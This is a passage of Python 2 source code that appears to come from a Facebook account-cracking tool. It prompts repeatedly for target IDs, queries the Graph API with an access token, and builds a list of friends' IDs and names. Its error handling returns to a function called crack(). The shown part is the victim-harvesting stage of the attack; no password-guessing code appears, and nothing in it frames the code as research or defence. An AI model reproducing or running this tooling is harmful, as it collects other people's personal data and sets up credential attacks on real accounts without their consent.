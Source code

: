         r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[2] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[3] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()

        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
        idt = raw_input('[4] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
